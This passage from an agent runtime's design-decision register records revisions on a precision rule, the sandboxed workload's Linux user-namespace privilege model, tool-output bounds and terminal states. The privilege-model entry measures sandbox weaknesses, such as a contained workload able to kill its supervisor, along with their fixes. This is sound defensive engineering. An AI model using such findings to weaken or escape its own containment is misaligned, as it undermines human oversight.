  independent artifact. Marking is not merely still required; it is the only thing Principle I leaves
  available. The ratchet made the rung inert and so gave marking nothing to do. The variant makes the
  rung live, so marking now does more work than it did, not less.
- ~~**The residual failure also points the opposite way from the one the ratchet closes: a declaration
  tighter than the quantity genuinely supports produces a false alarm, not a missed fault, and
  SC-005 scores a false-alarm rate of no worse than 1%.**~~ **This limb does not survive the variant
  and is struck rather than carried over.** It was sound for the ratchet, which admitted **only**
  tightenings, so over-tightness was the only residual. The variant admits a declaration **whatever
  its direction**, so a second residual appears that the ratchet did not have: a declaration
  **looser** than the quantity genuinely supports lets a fault smaller than the declared granularity
  pass as verified — a **missed fault**. It is not hypothetical. The one declaration ever measured was
  the loose kind, and it caught its near-miss only because `3.23` and `3.20` differ at two decimal
  places; a submission of `3.20` against the same true `3.201754` would have passed.
- **What replaces it, and it does not rescue the limb by restating it.** Measured against the
  **refusal** the variant displaces, no fault is newly missed, because refusal detects nothing. What
  changes is the **label**: an honest *not verifiable* becomes an affirmative that can be wrong. That
  is a real cost and it is the price of the restored catch. It is also precisely what the provisional
  marking exists to carry, which is why the conclusion holds on a **stronger** footing than the struck
  limb gave it — under the ratchet, marking guarded a residual that could only produce false alarms;
  under the variant it guards an affirmative that can fail in **either** direction. Both directions
  are scored by **SC-005**, which the variant also returns to a testable state: the admitted quantity
  re-enters the denominator, so a missed fault counts against the **95%** detection rate and a false
  alarm against the **1%** false-alarm rate, and neither is scored at all while the quantity refuses.
- **Retiring the marking was reached and refused, on the same ground as before.** A safeguard that can
  no longer fire reads exactly like one that has been satisfied. That ground now cuts twice, because
  **the ratchet had itself become an instance of it** — a test whose admissibility set is empty is a
  safeguard that cannot fire, and the revision is what stops the specification carrying one.

**Authorises** the production specification's **FR-024** property 5 and property 6, and the
stratification added to **SC-005**.

**Why this is a revision of OD-23 and not a new decision row.** It is the **same question** — whether a
request-declared precision is admissible on FR-024's ladder — revisited in the same day's session, and
the answer taken is the alternative **this entry's own text** named and set aside pending an owner act.
A new row would leave OD-23 standing as a live decision the specification no longer implements, and
every existing citation of OD-23 — at the Clarifications section, at FR-024 and at SC-005 — would go on
resolving cleanly while pointing at a superseded rule, which is the dangling-citation failure the
corpus's identifier checks exist to surface and cannot see when the identifier still resolves. The
precedent runs the same way: **OD-08** took a dated annotation in place when a later owner act revisited
it, and **OD-12** was revised in place when it was ratified, whereas **OD-21** got its own number because
it answered a *different* question. Struck text is retained under the house convention so the ratchet
stays readable as history.

**SC-005 changed, and not in the place the decision predicted.** Its denominator *rule* is unchanged —
it already read *"the faults injected into quantities the precision ladder does not refuse"* rather
than naming a number, so a growing refusal set is already handled. What the ratchet exposed is
sharper: SC-005's first sentence requires the corpus to include **faults smaller than one percent**,
and a refused quantity leaves both numerator and denominator, so **if the sub-one-percent faults are
concentrated in quantities the ladder refuses, that clause becomes vacuous while the criterion still
reports 95%**. On the one census available they are so concentrated — ~~the single measured
sub-one-percent catch is the one this decision moves to refusal~~ **the corpus's only measured
sub-one-percent catch is a single quantity, so whether that clause has any subject at all turns on
whether that one quantity refuses**. SC-005 therefore now requires the
refusal share be reported **broken out for the sub-one-percent stratum** and not only in aggregate.
That is a tightening of the criterion's reporting, prompted by this decision rather than required by
it, and it is the reason the decision does not silently make its own cost invisible.

**The stratum requirement survives the revision unchanged, and the reason it survives is not the
reason it was added.** It was added because the ratchet moved the corpus's only sub-one-percent catch
into the refusal set; the variant moves it back, so the *instance* that prompted the requirement is
gone. **The hazard is not.** It is structural and independent of which way this decision went: a
refused quantity leaves both numerator and denominator whatever put it there, so any corpus whose
sub-one-percent faults happen to sit in refused quantities reports a healthy aggregate over a stratum
it never tested. Retiring the requirement now, on the ground that the one known instance has been
repaired, would be the same error the marking discussion above refuses — mistaking *a safeguard with
nothing currently to catch* for *a safeguard that is no longer needed*. It stays, and its wording
needs no change, because it was written against the hazard and not against the instance.

**Propagated to** the production [`spec.md`](../002-spec-aware-agent-runtime/spec.md) at FR-024, at
SC-005, and at the Clarifications section, whose second open question is now answered and whose
heading is retitled rather than emptied.

**Revision propagated 2026-08-03 to the same four sites, plus this document's own summary of the
register above.** In the production specification: **FR-024 property 5**, rewritten to the
admissibility test with the ratchet struck in place and a new clause requiring the refusal reason to
distinguish *ignored because an artifact source applied* from *no declaration present*; the property-5
note, where the superseded census figure and the false-alarm-only limb are struck and replaced; the
census paragraph, restored to the as-measured refusal count with the source of the count named; the
**SC-005** note, which gains a dated confirmation that the stratum requirement is intact and why it
survives the instance being repaired; and the **Clarifications** section at both the preamble and the
question entry. No requirement other than FR-024 changes, and **SC-005's text is unchanged** — only its
note gains the confirmation. The sites citing FR-024 for its *source-sharing* clause —
[`data-model.md`](../002-spec-aware-agent-runtime/data-model.md),
[`contracts/result-record.md`](../002-spec-aware-agent-runtime/contracts/result-record.md),
[`plan.md`](../002-spec-aware-agent-runtime/plan.md) and
[`checklists/requirements.md`](../002-spec-aware-agent-runtime/checklists/requirements.md) — were
checked and are **untouched**, because none of them cites the precision ladder.

### OD-24 — the workload's privilege model: ~~an unprivileged user namespace via `CLONE_NEWUSER`, root inside and unprivileged outside~~ **the workload is root inside a user namespace mapped to a dedicated per-session kernel uid range, in its own pid namespace, dropping to a second mapped uid once the mount tree is built; the supervisor is not unprivileged** *(revised 2026-08-04; the corrected model is adopted and its implementation is deferred)*

> #### ⚠️ REVISED 2026-08-04, the day the measurements landed — the wording does not resolve, and the word that fails is **"unprivileged" applied to the supervisor**. *Revised, not reversed, and emphatically not a kill.*
>
> **Struck, not deleted, and the reason is unusual enough to state.** This entry is the **first** record
> of a decision taken earlier and never written down, so the struck text below never stood in this
> register as a live row. It is recorded and struck anyway rather than quietly replaced with the
> correct model, for two reasons. **A committed finding was written against the original wording and
> its central verdict is about that wording** — [finding 023](../002-spec-aware-agent-runtime/findings/023-user-namespace-privilege-model.md)
> measures the model *as worded*, concludes it is not buildable in that form, and carries the token in
> code spans throughout precisely because this row did not yet exist — so a register recording only the
> corrected model would leave that verdict pointing at nothing. And the falsification
> is the entry's evidence: what makes the corrected model the right one is exactly which three
> properties the original was assumed to deliver and does not.
>
> **The three results, each observed in a container rather than argued from documentation.**
>
> 1. **The user namespace closes neither of [finding 021](../002-spec-aware-agent-runtime/findings/021-openat2-audit-gap-and-two-authority-gaps.md)'s
>    two authority gaps.** Both reproduce identically inside it, because the workload holds
>    in-namespace root and in-namespace root owns the `tmpfs` it has just mounted. With the workload at
>    in-namespace uid 0, `mkdir` at an undeclared path in the session root returned `ok`; only after a
>    drop to a second mapped uid did it return `EACCES`.
> 2. **A single-entry self-map has no uid to drop to.** `setuid(65534)` inside a namespace mapping only
>    uid 0 returns `EINVAL`, so finding 021's closure requires a **multi-line** map — and a multi-line
>    map is `EPERM` for an unprivileged writer, `ok` for a writer holding `CAP_SETUID`.
> 3. **Under a self-map the workload can `SIGKILL` its own supervisor**, observed at status 9, because
>    in-namespace root maps to the supervisor's own kernel uid and same-uid is the whole of what the
>    signal check asks. A distinct map returns `EPERM`; `CLONE_NEWPID` with the workload forked *after*
>    the unshare returns `ESRCH`.
>
> **Nothing in this corpus ever stated the constraint that fails.** No document requires the supervisor
> to be unprivileged; the requirement that bears on it points the other way. **FR-049 requires processor
> and memory bounds *"enforced from outside the environment"*, and its 2026-08-03 pre-exec-barrier
> extension requires the session cgroup created and every bound written before the workload process
> exists** — so the supervisor is already the party that writes into the cgroup hierarchy before
> anything else runs. **That is a tension rather than a flat contradiction, and this entry says so
> rather than overstating it**: FR-049's clause constrains *where* enforcement sits, not what authority
> the enforcer holds, and an operator who delegates a cgroup subtree to the supervisor by unit file
> satisfies it with a supervisor holding no capability at all. What is a flat contradiction is result 2
> — writing a multi-line uid map needs `CAP_SETUID` in the writer, with no delegation route measured or
> looked for. **The map, not the cgroup, is what makes an unprivileged supervisor unbuildable.**
>
> **What survives untouched is the half that mattered.** *Unprivileged* was always a property worth
> having of the **workload**, and it is delivered in full: no authority on the host, and a better
> identity to drop to than the plain drop offers.

**Decided 2026-08-04**, answering what privilege model the three mechanisms of the production
specification's **FR-048**, **FR-049** and **FR-050** run under — a question the specification
deliberately withheld and
[feature 002's `plan.md`](../002-spec-aware-agent-runtime/plan.md) answered only at the level of
*mount namespace, cgroup v2, four-layer credential construction*. **Revised 2026-08-04**, on the same
question, after seven probes measured the proposed model against the kernel before any of
[`src/supervisor/`](../../src/supervisor/)'s three modules was changed for it
([finding 023](../002-spec-aware-agent-runtime/findings/023-user-namespace-privilege-model.md)).
**The decision and its revision are recorded in one act because the original was never recorded at
all** — the finding declined to write it, on the ground that recording an owner decision is an owner
act, which is **OD-21**'s precedent, and on the ground that an entry reading *"root inside,
unprivileged outside"* would have needed revising the day it was written.

**~~The decision as first taken~~ — superseded, and kept because the revision is only legible against
it.** ~~The workload runs under an unprivileged user namespace entered with `CLONE_NEWUSER`: **root
inside, unprivileged outside**. The namespace was chosen over the plain `setuid(65534)` drop finding
021 used to close its two authority gaps, on the understanding that in-namespace root with no host
authority delivers the same closure with a better identity model and asks nothing of the supervisor.~~

**The decision as revised.** The **workload** is root inside a user namespace and unprivileged outside
it, mapped to a **dedicated per-session kernel uid range that is not the supervisor's**, in a **pid
namespace of its own** with the workload forked after the unshare, and it **drops to a second mapped
uid once the mount tree is built**. The **supervisor is not unprivileged**: it holds `CAP_SETUID` and
`CAP_SETGID` long enough to write the multi-line map — or delegates that to a `newuidmap` helper — and
holds enough authority over the cgroup root to `chown` the four-path delegation set. Three differences
from the wording, and none is a retreat from it:

- **"Unprivileged" describes the workload, not the supervisor.** The property the choice was made for
  is delivered whole; the property nobody asked for is given up.
- **The `setuid` drop is retained.** The namespace **complements** it rather than replacing it. What
  the namespace changes is what the drop lands on: not the host's shared `nobody`, but a kernel uid
  belonging to this session alone.
- **`CLONE_NEWPID` is mandatory**, and it was absent from the original wording. It is the only
  measured mitigation for result 3 that holds regardless of the map.

**Why the plain `setuid` drop is not simply reinstated, given that it closes both gaps and needs
nothing.** Because the namespace buys something the drop cannot — per-session kernel uid isolation
instead of an identity shared with everything else on the box — and because the mount-tree control it
provides is real. The fallback remains available and is named rather than hidden: **if the supervisor
genuinely cannot hold `CAP_SETUID`, the answer is the plain drop with no namespace**, which closes both
authority gaps and gives up both of those gains. That constraint is stated by no document in this
repository, which is why it is a fallback rather than the decision.

> #### ⚠️ IMPLEMENTATION IS NOT SCHEDULED BY THIS DECISION, AND A DEFERRAL IS NOT A DECLINE
>
> **The corrected model is adopted. Only the build is gated.** This corpus has been bitten before by a
> deferral read later as a refusal, so the distinction is stated as the entry's whole content: nothing
> below withdraws the model, reopens the choice, or licenses a design that contradicts it. What is
> deferred is a **13–20 engineer-day** build, sized per task from task shape in
> [finding 023](../002-spec-aware-agent-runtime/findings/023-user-namespace-privilege-model.md) with
> every row anchored to a measured result, whose largest row — 3–4 days — is the uid/gid map plumbing
> and the `CAP_SETUID` decision, and which is a design decision before it is code.
>
> **Two grounds, and the entry must state both because either alone would be weaker.**
>
> **① The margin over the plain drop is real but is not what closes the gaps, and the thing that
> closes them has already landed.** The repairs now in [`src/supervisor/mounts.py`](../../src/supervisor/mounts.py)
> — `MS_RDONLY` on the session root once the namespace is built, and the read-only remount applied to
> **every** mount the recursive bind copied rather than only the outermost — close finding 021's two
> authority gaps by mount flag. **Mount flags are indifferent to privilege**, so those repairs hold
> under every privilege model in play, including the plain drop and including doing nothing. What the
> namespace adds on top is **per-session kernel uid isolation instead of the host's shared `nobody`**.
> That is a genuine gain and it is not a gap closure, and a build justified as a gap closure would be
> justified on a premise this decision's own evidence removes.
>
> **② The deployment surface may not permit the mechanism at all, and the schedule waits on
> establishing it.** Docker's default seccomp profile blocks `unshare(CLONE_NEWUSER)` outright: a
> supervisor running in a container under that profile cannot create a user namespace, and every
> unprivileged probe behind this decision needed `--security-opt seccomp=unconfined` to run. **This is
> a deployment constraint and not a probe artefact**, and it lands squarely on **OD-08**'s self-hosted
> model, ~~where what the operator's container runtime permits is not ours to choose~~. A concurrent pass
> has taken the first empirical reading — `unshare(CLONE_NEWUSER)` is `EPERM` under Docker's defaults
> and `ok` with that one filter removed, while Landlock, seccomp user-notification and cgroup
> delegation all live under a smaller privilege set — at
> [`harness/pass-by-reference/results/20260804-kernel-facilities/`](./harness/pass-by-reference/results/20260804-kernel-facilities/README.md).
> **That is one kernel, one architecture and one container runtime**, so it establishes the constraint
> exists rather than how wide it is. ~~**The schedule waits on the wider reading**~~, and this is a
> sequencing statement rather than a condition on the model: the model is settled either way, and what
> the surface decides is whether the fallback ships instead.
>
> > #### ⚠️ CORRECTED 2026-08-05 — ground ② no longer supports the deferral, by two different routes, and ground ① is doing all of the work
> >
> > Re-examined in [finding 028](../002-spec-aware-agent-runtime/findings/028-od24-deferral-re-examination.md).
> > **The deferral survives. Ground ② does not, and the two strikes above fail for different reasons that
> > must not be collapsed.**
> >
> > **The inference limb was falsified.** "Not ours to choose" was wrong.
> > [Finding 024](../002-spec-aware-agent-runtime/findings/024-deployment-surface-permission-census.md)
> > measured a custom seccomp profile that is Docker's *own default* with a widening, running the whole
> > mount sequence at uid 1000 under `--cap-drop=ALL`. The operator does choose, and a bundle can ship
> > the profile. The measured half of the clause — that the default profile blocks the call — stands.
> >
> > **The operative limb was *discharged*, not falsified, and the distinction is the ruling.** "The
> > schedule waits on the wider reading" is a **sequencing clause**, as this entry says in terms: it
> > waits on information rather than asserting a fact. That information has since arrived from both
> > directions — finding 024 answered the width question across eight surfaces, and
> > [finding 023](../002-spec-aware-agent-runtime/findings/023-user-namespace-privilege-model.md)'s
> > extension measured the last unread layer on Ubuntu 24.04. **A ground that says "wait until we know"
> > stops being a reason to wait once we know.** It was collected and spent. Nothing about it was wrong.
> >
> > **What the reading returned is a real constraint, but a different one, and it is stated here because
> > this entry did not contain it.** The LSM restriction and the `CAP_SETUID` requirement are **not
> > independent**: no posture binds exactly one. At `CapEff=0` the LSM refuses even the self-map, so the
> > distinct map that `CAP_SETUID` guards is never reached; and holding capabilities in the initial
> > namespace *disables* the LSM as a side effect, because Ubuntu's hook only transitions a process
> > lacking `CAP_SYS_ADMIN`. Both therefore collapse onto one question — **may the supervisor hold
> > capabilities in the initial user namespace?** — and a plan cannot satisfy one and report partial
> > progress on the other.
> >
> > **Two consequences for anyone reading this entry to decide.** First, the sentence above saying the
> > entry "must state both because either alone would be weaker" **is now wrong**: ground ① is untouched
> > by everything measured since, holds under every privilege model including doing nothing, and is
> > **sufficient alone**. Second, two misreadings are reachable from the unamended text and both are
> > wrong — that ②'s discharge licenses starting the build, and that the deferral was never sound.
> >
> > **Retirement triggers, neither of which is a measurement.** Ground ① retires when a requirement asks
> > for something mount flags cannot give and per-session uid isolation can — sessions unable to signal
> > or `ptrace` one another, or distinct on-disk ownership. Nothing in the corpus asks that today. The
> > replacement ground retires when the capability question above is settled either way. **No further
> > probing of this kind will move the deferral**, which is the useful part.
> >
> > > #### ⚠️ THE REPLACEMENT GROUND IS RETIRED 2026-08-08 BY **OD-29**, AND THE DEFERRAL STILL STANDS ON GROUND ①
> > >
> > > **The capability question is answered "yes".** **OD-29**, the last entry in this register,
> > > records that the supervisor **may** hold `CAP_SETUID` and `CAP_SETGID` in the initial user
> > > namespace. Because no posture binds exactly one of the two constraints, that single answer
> > > retires **both** limbs of the replacement ground at once — which is what the paragraph above
> > > predicted and is the reason it was written as one question.
> > >
> > > **Ground ① is untouched, is sufficient alone, and is now the *only* thing holding this deferral.**
> > > It retires on a **requirement** — sessions unable to signal or `ptrace` one another, or distinct
> > > on-disk ownership — and no capability grant is one. **Nothing in this corpus asks for that today,
> > > so the 13–20 engineer-day build remains deferred.** What changed is the *character* of the wait:
> > > it is now a pure value-for-effort judgement rather than a wait on an open question. **That is not
> > > a licence to start**, and OD-29 spends a banner saying so.
> > >
> > > **One thing OD-29 narrows inside the deferred work, without scheduling it.** The 3–4 day row this
> > > entry sizes as *"the uid/gid map plumbing and the `CAP_SETUID` decision"* had a design choice
> > > among three routes at its centre. That choice is made: the map is written **directly**, by the
> > > namespace's own creator. **This entry's offer of a `newuidmap` helper as the delegation option is
> > > corrected there rather than here** — measured, it needs `CAP_SYS_ADMIN` in the bounding set where
> > > the direct write needs only `CAP_SETUID`+`CAP_SETGID`, making it the **highest**-authority route
> > > of the three rather than the lowest. The wording above that offers it as though it asked less of
> > > the supervisor is wrong on that point and OD-29 holds the correction. **Nothing is re-sized.**
> >
> > **This correction was owed and was missed once.** Finding 024's propagation note records it as having
> > corrected "`plan.md`'s OD-24 note", and its relative link resolves to **feature 002's plan**, not to
> > this document — which holds the entry. The falsified inference therefore stood live in the register
> > for a day after the derived copy was struck, and no gate can see that, because a citation naming the
> > right filename can still resolve to the wrong file.

**What this decision does not license.**
- **Not** a claim that the namespace closes an authority gap. It closes neither, measured, and the
  entry exists partly to stop that claim being made from the model's adoption.
- **Not** a relaxation of the `setuid` drop, of finding 021's closure, or of the landed mount repairs.
  Every one of them survives this decision and none is conditional on it.
- **Not** a kernel-floor change. The floor stays **Linux 5.14**, still bound by `cgroup.kill`, still
  **DERIVED and NOT TESTED**. The model adds no facility above it. What does change is that two of the
  three things **T205**'s own text names as having moved across the intervening releases — cgroup
  delegation semantics and `pivot_root` in a user namespace — are now both on the critical path, so
  the value of running that boot matrix goes up while its urgency does not.
- **Not** a decision that the mount and seccomp test batteries move off `sudo -E`. That is the honest
  end state under this model and it is a build item, not a record: moving them changes what they
  prove, and the removal proofs behind them were written against the privileged path.

**Propagated to** [feature 002's `plan.md`](../002-spec-aware-agent-runtime/plan.md) at the
**Target Platform** line, which named user namespaces as a platform requirement without saying which
privilege model they are entered under. **No requirement text changes and none should**: FR-048,
FR-049 and FR-050 state properties, this decision states the mechanism they are delivered by, and
[finding 023](../002-spec-aware-agent-runtime/findings/023-user-namespace-privilege-model.md) records
four downstream statements it bears on for the passes that own those documents.

### OD-25 — bounded-and-referenced is v1's default disposition for tool output, and the bound is set below the region where the token saving is large

**Decided 2026-08-04**, answering what governs the size of a result the agent's general-purpose
capabilities return — the question [`14`](../../research/14-architecture-synthesis.md) **U-50** opened
on 2026-08-04 and which no requirement had ever answered, leaving *inline whatever the call printed*
as an operative default nobody chose. The production specification's **FR-058** is the answer's text.

**The decision.** **Bounded-and-referenced is v1's default disposition for tool output**: every result
either of **FR-004**'s two capabilities returns is bounded before it enters the model's context, and a
result that reaches the bound is returned as a **bounded preview together with a reference the agent's
next call on the same surface can name** — not as a silent truncation. The bound is stated in **tokens
of the model in force**, is required configuration under FR-033 with **no default stated at all**, and
**may not be configured above one twentieth of the context window**. And the bound is **deliberately
set below the region where the token saving is large** — the useful operating region is the low
thousands, well under the ten thousand tokens that ceiling permits on a 200,000-token window.

**Why bounded-and-referenced rather than a truncation rule, and the argument is a correctness one
rather than an economic one.** At a low bound the token saving a reference buys over plain truncation
is small. What a low bound without a reference does is **destroy data the agent cannot re-request**:
the bytes are gone, the agent has no name for them, and an answer composed from a silently shortened
result is a wrong answer carrying no signal that it is one. A reference makes a cheap result a
*filterable* one rather than a lossy one, and that is available on a bytes-returning surface — the
withheld bytes written inside FR-048's declared set, the reference being the path, the next command
filtering or counting or searching it without the bytes entering the transcript at all.

**Three limbs, and each is a real commitment rather than a consequence of the first.**

- **It commits build work no cost measurement justifies.** A retention area inside FR-048's declared
  set carrying **a declared bound of its own**, a preview format, and a trace field on FR-038's
  `tool_call` span. At the chosen bound the token saving does not pay for any of it. **This is
  recorded as a build accepted on a correctness argument, not as one the economics carry** — the
  distinction matters because a later reader pricing the mechanism will find the economics thin and
  should not conclude the decision was mistaken.
- **It forecloses by requirement the exact configuration at which the planned experiment would have
  shown its largest effect.** The saving a reference buys is almost entirely a function of where the
  alternative truncates — large at a high bound, near zero at a low one — and the highest setting the
  planned sensitivity analysis prices sits **above the ceiling FR-058 permits** on the window it
  prices against. So this is **a decision about what the product will not measure, taken before
  measuring**, and it is stated as one. The reason it is the right way round is that setting a high
  bound in order to make the mechanism measurable would be designing the instrument to produce a
  result, which is a failure this project has a standing rule against and has caught in its own
  artifacts more than once.
- **It changes what the experiment is worth buying, and the change is a subtraction on both limbs.**
  U-50 opened two: what inlining costs, and whether an agent handed a reference answers as often
  correctly as one handed the bytes. **The token limb is now settled by argument at zero cost** — its
  answer follows from a requirement rather than from a run, and a run priced against a bound v1
  forbids would price a setting v1 cannot ship. **Only the task-success limb could still move a
  decision**, and that limb's own harness predicts it **voids at stage one**: its pre-registration
  states in its own words that this is the most likely single outcome, because every task is a
  deterministic shell question a competent model gets right, so a turn budget is the only calibration
  knob and without one the design almost certainly voids. That is the saturated-calibration failure
  **U-45** records costing the ceiling test an entire family, arriving before any money is spent rather
  than after. **So the experiment is dead on both limbs** — one
  answered, one unable to answer — and that, rather than the requirement, is the useful output for
  anyone deciding where to spend next.

**Why this is not the ceiling being smuggled in as a default.** Nothing ships at one twentieth,
because nothing ships without an operator's value: an unset bound makes startup fail loudly. The
fraction is a bound on **configuration**, derived from an argument about what a transcript has to hold
and from nothing else, and it belongs on the list of figures this product states with no measurement
behind it, beside the kernel floor. **This is FR-005's treatment and not FR-047's**, on FR-005's
grounds: an unset per-result bound is not a number nobody has checked, it is an unbounded liability.

**Why the projected sensitivity ratios are not quoted here, and the omission is deliberate rather than
an oversight.** They are dry-run projections against a synthetic corpus in which no model was called;
they **move with the bound**; and a ratio without the bound it was taken at is not a result. The pass
that wrote FR-058 kept them out for those reasons and this entry does the same, so that no downstream
document can acquire them by citing the register.

**This decision depends on OD-09 and would not be load-bearing without it.** OD-09 repositioned the
product claim onto **cost**, which is what turns an ungoverned inlining default from untidy into a
gap sitting directly on the thesis. It composes with **OD-10** without touching it — a bounded result
is a disposition of a read, and v1 performs no writes.

**It partly settles U-50, and only partly.** The token limb no longer needs an experiment. The
task-success limb stays open and nothing in this corpus bears on it, so U-50 stays **open** rather
than closing — which is the intended behaviour of that register and not an omission.

**Authorises** the production specification's **FR-058** in full, including its three obligations, its
unit rule and the byte-proxy restriction; the notes recording FR-004 as **extended** by it and FR-005
as **neither extended nor narrowed** by it; and feature 002's `plan.md` **Complexity Tracking** row
recording the split between the two U-50 limbs.

**Propagated to** [feature 002's `plan.md`](../002-spec-aware-agent-runtime/plan.md) at the
Complexity Tracking row for FR-058, which stated the determination and had no authorising decision to
point at, and at the Technical Context note recording FR-058's ceiling as a figure with no measurement
behind it. ~~**FR-058's own text is unchanged** — what it lacked was a decision to cite, not a
decision.~~ **Extended 2026-08-04: the citation is now carried in FR-058 itself, in
[`spec.md`](../002-spec-aware-agent-runtime/spec.md), and this list records it.** The struck sentence
is kept rather than deleted because it is true and was misread as an instruction. **It says the
requirement's normative text did not move; it does not say the authority should go unnamed at the
requirement.** The two readings are separable and the corpus has already separated them: **OD-21**
above carries the same sentence almost verbatim — *"This requirement's text is unchanged: what it
lacked was a decision to point at, not a decision"* — and that sentence sits **inside FR-047**, next
to the citation it qualifies, with the same construction at **FR-001**, **FR-030**, **FR-031** and
**FR-002**. Leaving FR-058 uncited would have made it the only requirement in that specification
authorised by an entry in this register and naming none, which is the defect **OD-18** through
**OD-21** were minted to close. Nothing about the decision changes and no requirement text changes.
[`14`](../../research/14-architecture-synthesis.md)'s **U-50** row needs a dated annotation recording
that its token limb is settled by requirement and its task-success limb is not; that document was not
free at this pass and the annotation is reported for routing rather than written.

### OD-26 — `src/contracts/terminal.py` is authoritative for terminal-state membership and `data-model.md` §2.1 is a derived view of it; `terminated.denied_operation` is struck from the diagram

**Decided 2026-08-05**, answering the question
[finding 027](../002-spec-aware-agent-runtime/findings/027-lifecycle-edge-set-divergence.md) §4 left
open on purpose: **does the production specification's `data-model.md` §2.1 lifecycle get reconciled
with `TAXONOMY`, and in which direction?** The finding measured the divergence in both directions and
declined to pick, on the ground that picking is an owner act. This entry picks, and it picks against
the direction an earlier instruction had assumed.

**The decision, in two limbs.**

**① [`src/contracts/terminal.py`](../../src/contracts/terminal.py) is authoritative for membership.
[`data-model.md`](../002-spec-aware-agent-runtime/data-model.md) §2.1's lifecycle is a **derived
view** of that taxonomy** — authoritative on the *shape* of the lifecycle, which is what it was always
good for, and not the closed set. **FR-006**'s closed set is the module, and
`tests/invariants/test_terminal_taxonomy.py` is what closes it.

**② `terminated.denied_operation` is STRUCK from §2.1.** It named a terminal state nothing produces,
nothing records as owed, and — the part that makes it wrong rather than merely absent — **no
requirement wants**. `terminated.no_progress` is **not** struck: it is a real debt, already recorded,
and it is marked in the diagram as declared-but-not-yet-a-member rather than deleted.

**Why the diagram loses and the module wins, and the argument is an evenness argument rather than a
preference.** The alternative reading — *§2.1's declared branch set is authoritative and a member
outside it may not be reached* — is not merely inconvenient. **Applied evenly it invalidates
`terminated.unrecoverable_fault`**, which is the runner's teardown state for a fault it cannot
classify, which has shipped since **T046**, and which has its own arm in the suite. A rule whose even
application condemns a path that ships today is not a rule; it is a preference for one of the two
artifacts, and the preference has to be argued rather than assumed.

Argued, the asymmetry is one-sided:

- **The taxonomy has consumers and the diagram has none.** `src/contracts/terminal.py` is imported by
  **seven** modules under [`src/`](../../src/) — `contracts/transition.py`, `runtime/runner.py`,
  `runtime/loop.py`, `runtime/session_state.py`, `runtime/session_store.py`, `runtime/trace.py` and
  `supervisor/session_table.py` — and its member names ship as a **cross-language conformance vector**
  in `tests/fixtures/session_conformance.json`, which the Go enforcement point reads directly at
  `src/proxy/conformance_test.go`. Nothing anywhere reads §2.1. *(Both figures were re-counted for
  this entry rather than carried over from the finding.)*
- **A member's name is a wire string.** Moving one to satisfy a diagram would break a conformance
  vector two languages read. Moving a diagram to match the code breaks nothing.
- **The drift is evidence for the direction, not merely for the repair.** §2.1 has been wrong about
  three members for as long as those members have existed, and the corpus noticed only when a fourth
  question was asked of it. An artifact that can be wrong for that long without anything failing is
  not the one holding the invariant.

**What limb ① does not license, and this is the clause that matters most.** It does **not** license
adding a member. `terminal.py` is authoritative for *membership*, which makes it the place a member is
added — under FR-006's rule, with a requirement and a meaning, and against the invariant suite. It is
not a licence to add one casually because the diagram no longer constrains it. **The diagram was never
the constraint; the invariant test is**, and it is unchanged by this decision.

**Why `denied_operation` is struck rather than owed, and the premise was checked before the strike.**
A refusal is a **disposition the loop continues past**, not an outcome of the session. That is not an
inference from the code; it is what the two enforcement points are specified to do. **SC-022 counts
denials as records** — [`contracts/filesystem-decision.md`](../002-spec-aware-agent-runtime/contracts/filesystem-decision.md)
says so in as many words, that the criterion is scored on *"the record's existence and its rule
identifier"* and that an unclassifiable open is *"recorded rather than raised because SC-022 counts
attempts"*. The egress side reads the same way: a handle presented after termination *"is denied and
the denial recorded like any other FR-011 denial"*. **FR-006 was read in full and defines exactly one
producer** — the stall condition behind `no_progress` — and says nothing about a denial. So a session
in which the agent is refused a path or a destination has **not ended**; it has learned something, and
FR-005's ceilings bound what it does next. A terminal state for a denial would make the *first*
refusal fatal, which is the opposite of the posture **OD-12** and **Q-07** settled, where the denial
counter is the instrument.

> #### The durable output of this decision is a check, not an edit
>
> **Two artifacts drifted in both directions for weeks and nothing looked at either against the
> other.** Repairing them settles today's divergence and does nothing about tomorrow's, and this
> corpus has recorded the same shape often enough to name it: *a claim about the corpus that lives in
> a different file from the thing it describes*, which is the family
> [`tools/README.md`](../../tools/README.md) already collects `register-range`, `inventory-count`,
> `catalog-line-count` and `definition-count` under.
>
> So this decision also authorises a **`lifecycle-taxonomy` check in `check_corpus.py`**, reconciling
> §2.1's declared branch set against `TAXONOMY` and erroring **in either direction**. It is a check
> rather than a generator for the reason the README already gives for `definition-count`: the diagram
> carries strike-and-supersede history and an owed-member marking, which is exactly the shape
> `gen_claims.py` classifies `MANUAL` and refuses to write.
>
> **It was written before the repair and run against the unrepaired tree**, and the output of that run
> is recorded in finding 027. A check added after the defect has never shown it can see the defect,
> and this repository has been bitten by that at least four times.

**What this decision does not license.**
- **Not** a claim that §2.1 is unreliable in general. It is authoritative on the lifecycle's *shape* —
  one non-terminal state, a resume edge back to `RUNNING`, no edge out of any terminal state — and
  every routing decision taken against that shape stands.
- **Not** the retirement of `terminated.no_progress`. Its predicate is *unwritable as specified* under
  **T067** and that is a debt, not a spurious name. Striking it would convert a recorded gap into a
  forgotten one.
- **Not** an amendment to FR-006, whose text is unchanged and should be. FR-006 requires a closed
  named taxonomy; this decision says which artifact *is* it.
- **Not** a widening of `is_terminal()`. A prefix match is still what FR-006 forbids, and the
  invariant that stops it is untouched.

**Authorises** the `lifecycle-taxonomy` check in
[`tools/corpuscheck/checks/`](../../tools/corpuscheck/checks/) together with its two fixture cases;
the reconciliation of
[`data-model.md`](../002-spec-aware-agent-runtime/data-model.md) §2.1 — three members added, one
struck, one marked owed, and the bare `completed` corrected to `terminated.completed`; and the
rewording of `Runner.attach`'s refusal message in [`src/runtime/runner.py`](../../src/runtime/runner.py),
which cited §2.1 for a property §2.1 held only vacuously.

**Propagated to** [`data-model.md`](../002-spec-aware-agent-runtime/data-model.md) §2.1, which carries
the reconciled diagram, a dated note recording the strike, and the sentence naming `terminal.py` as
the authority; [`src/runtime/runner.py`](../../src/runtime/runner.py) and
`tests/unit/test_cancellation.py`, which assert the message together;
[`tools/README.md`](../../tools/README.md)'s check table and family count; and
[finding 027](../002-spec-aware-agent-runtime/findings/027-lifecycle-edge-set-divergence.md), whose §4
question this closes and whose §1 census is now the check's specification.
[`tasks.md`](../002-spec-aware-agent-runtime/tasks.md) **T067** keeps `no_progress` and **loses
`denied_operation`**, struck in place with a dated note, because a task still owing a member this
decision struck would be a live instruction to reintroduce it.

### OD-27 — an operator may declare a rate for a model no vendor page here prices; it is a second provenance rather than a second row, and a context-tiered card with no published boundary is refused a single rate

**Decided 2026-08-06**, answering a question
